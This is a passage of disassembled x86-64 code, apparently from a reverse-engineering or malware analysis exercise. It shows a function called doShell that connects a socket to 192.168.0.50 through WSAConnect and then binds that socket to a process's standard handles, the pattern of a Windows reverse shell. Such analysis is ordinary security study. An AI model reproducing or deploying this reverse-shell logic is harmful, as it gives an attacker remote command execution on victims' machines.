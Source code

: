 ````
|           0x004015d3      668985820000.  mov word [arg_82h], ax      ; [0x82:2]=0xffff ; 130
|           0x004015da      488d0d1f2a00.  lea rcx, str.192.168.0.50   ; section..rdata ; 0x404000 ; "192.168.0.50"
|           0x004015e1      488b05a86c00.  mov rax, qword sym.imp.WS2_32.dll_inet_addr ; [0x408290:8]=0x84c0 reloc.WS2_32.dll_inet_addr
|           0x004015e8      ffd0           call rax
|           0x004015ea      898584000000   mov dword [arg_84h], eax    ; [0x84:4]=-1 ; 132
|           0x004015f0      488d85800000.  lea rax, [arg_80h]          ; 0x80 ; 128
|           0x004015f7      488b8d280200.  mov rcx, qword [arg_228h]   ; [0x228:8]=-1 ; 552
|           0x004015fe      48c744243000.  mov qword [local_30h], 0
|           0x00401607      48c744242800.  mov qword [local_28h_2], 0
|           0x00401610      48c744242000.  mov qword [local_20h], 0
|           0x00401619      41b900000000   mov r9d, 0
|           0x0040161f      41b810000000   mov r8d, 0x10               ; 16
|           0x00401625      4889c2         mov rdx, rax
|           0x00401628      488b05316c00.  mov rax, qword sym.imp.WS2_32.dll_WSAConnect ; [0x408260:8]=0x846e reloc.WS2_32.dll_WSAConnect ; "n\x84"
|           0x0040162f      ffd0           call rax
|           0x00401631      83f8ff         cmp eax, 0xffffffffffffffff
|       ,=< 0x00401634      7538           jne 0x40166e
|       |   0x00401636      488b052b6c00.  mov rax, qword sym.imp.WS2_32.dll_WSAGetLastError ; [0x408268:8]=0x847c reloc.WS2_32.dll_WSAGetLastError ; "|\x84"
|       |   0x0040163d      ffd0           call rax
|       |   0x0040163f      89c2           mov edx, eax
|       |   0x00401641      488d0dc52900.  lea rcx, str.error__d       ; 0x40400d ; "error %d \n"
|       |   0x00401648      e88b160000     call sym.printf             ; int printf(const char *format)
|       |   0x0040164d      488b85280200.  mov rax, qword [arg_228h]   ; [0x228:8]=-1 ; 552
|       |   0x00401654      4889c1         mov rcx, rax
|       |   0x00401657      488b05226c00.  mov rax, qword sym.imp.WS2_32.dll_closesocket ; [0x408280:8]=0x84aa reloc.WS2_32.dll_closesocket
|       |   0x0040165e      ffd0           call rax
|       |   0x00401660      488b05f16b00.  mov rax, qword sym.imp.WS2_32.dll_WSACleanup ; [0x408258:8]=0x8460 reloc.WS2_32.dll_WSACleanup ; "`\x84"
|       |   0x00401667      ffd0           call rax
|      ,==< 0x00401669      e9fc000000     jmp 0x40176a
|      ||   ; JMP XREF from 0x00401634 (sym.doShell)
|      |`-> 0x0040166e      488d0da32900.  lea rcx, str.connecting     ; 0x404018 ; "connecting "
|      |    0x00401675      e856160000     call sym.puts               ; int puts(const char *s)
|      |    0x0040167a      4889e8         mov rax, rbp
|      |    0x0040167d      41b868000000   mov r8d, 0x68               ; 'h' ; 104
|      |    0x00401683      ba00000000     mov edx, 0
|      |    0x00401688      4889c1         mov rcx, rax
|      |    0x0040168b      e850160000     call sym.memset             ; void *memset(void *s, int c, size_t n)
|      |    0x00401690      c74500680000.  mov dword [rbp], 0x68       ; 'h' ; 104
|      |    0x00401697      c7453c010100.  mov dword [arg_3ch], 0x101  ; 257
|      |    0x0040169e      488b85280200.  mov rax, qword [arg_228h]   ; [0x228:8]=-1 ; 552
|      |    0x004016a5      48894560       mov qword [arg_60h], rax    ; [0x60:8]=-1 ; '`' ; 96
|      |    0x004016a9      488b4560       mov rax, qword [arg_60h]    ; [0x60:8]=-1 ; '`' ; 96
|      |    0x004016ad      48894558       mov qword [arg_58h], rax    ; [0x58:8]=-1 ; 'X' ; 88
|      |    0x004016b1      488b4558       mov rax, qword [arg_58h]    ; [0x58:8]=-1 ; 'X' ; 88
|      |    0x004016b5      48894550       mov qword [arg_50h], rax    ; [0x50:8]=-1 ; 'P' ; 80
|      |    0x004016b9      488d45d8       lea rax, [local_28h]
|      |    0x004016bd      488d55e0       lea rdx, [local_20h_2]
|      |    0x004016c1      4889542448     mov qword [local_48h], rdx
|      |    0x004016c6      4889ea         mov rdx, rbp
|      |    0x004016c9      4889542440     mov qword [local_40h], rdx
|      |    0x004016ce      48c744243800.  mov qword [local_38h], 0
|      |    0x004016d7      48c744243000.  mov qword [local_30h], 0
|      |    0x004016e0      c74424280000.  mov dword [local_28h_2], 0
|      |    0x004016e8      c74424200100.  mov dword [local_20h], 1
|      |    0x004016f0      41b900000000   mov r9d, 0
````